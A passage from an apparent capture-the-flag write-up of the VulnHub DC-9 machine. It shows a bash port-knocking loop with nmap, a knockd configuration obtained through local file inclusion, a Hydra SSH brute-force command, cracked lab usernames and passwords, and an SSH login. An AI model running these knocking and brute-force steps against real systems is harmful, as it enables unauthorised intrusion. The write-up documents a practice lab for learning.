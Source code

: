The config is there, we are now moving to real port knocking application.

#### Knock, Knock, is SSH port there?

Before port knock
![27e7a4a0e7b817464629840ab1b342c8.png](/images/vulnhub/dc-9/3579a1b27303482995b92aa2ea08f303.png)


Port knocking using nmap and simple bash script
```bash
#!/bin/bash

for port in 7469 8475 9842
	do nmap -Pn --max-retries 0 -p $port 192.168.43.182
done
```


![d9c1421e6d6385e08e1c5dae59e3ccd7.png](/images/vulnhub/dc-9/3f44d384cff44f439ffc092825bfe1bc.png)


After port knock
![358c8c61fde2a85c9635af64d6eed5b7.png](/images/vulnhub/dc-9/5cdad0b2f9974826b7729b1f1afcd0e1.png)


So what is happening here is that we get important information when we enumerate knockd information using LFI. In order to do port knocking, there are proper sequence to do it. 

```code
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 
```

It is like when you are closing the door and only opne it to anyone that have secret code. For this machine, the sequence are `7469,8475 and 9842`

The bash script is simply store knock sequence as port variable and scan it using nmap each port per scan or knocking. 

Port 22 will open for gaining initial foothold once knocked.

Next, we going to use all collected username and password and do bruteforce to the ssh. 

Store all username and passoword in spearate file. We will let Hydra do the dirty work. 

`hydra -L loot/user.txt -P loot/password.txt ssh://192.168.43.182 -t 10 -I | tee loot/brute-ssh.txt`

![5c61504b671350837563236efc47f2fc.png](/images/vulnhub/dc-9/459e4b1d0dd040eaa649c0e38fb7c6f6.png)

**cracked password and username**
- chandlerb:UrAG0D!
- joeyt:Passw0rd
- janitor:Ilovepeepee

ssh chandlerb
```bash
The authenticity of host '192.168.43.182 (192.168.43.182)' can't be established.
ECDSA key fingerprint is SHA256:o2Ii/WX152zZCRlVrfXpNnX8mvNwYfOWhkMscAr+sMs.    
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes        
Warning: Permanently added '192.168.43.182' (ECDSA) to the list of known hosts. 
chandlerb@192.168.43.182's password:                                            
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64   
                                                                                
The programs included with the Debian GNU/Linux system are free software;       
the exact distribution terms for each program are described in the              
individual files in /usr/share/doc/*/copyright.                                 
                                                                                
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent               
permitted by applicable law. 
```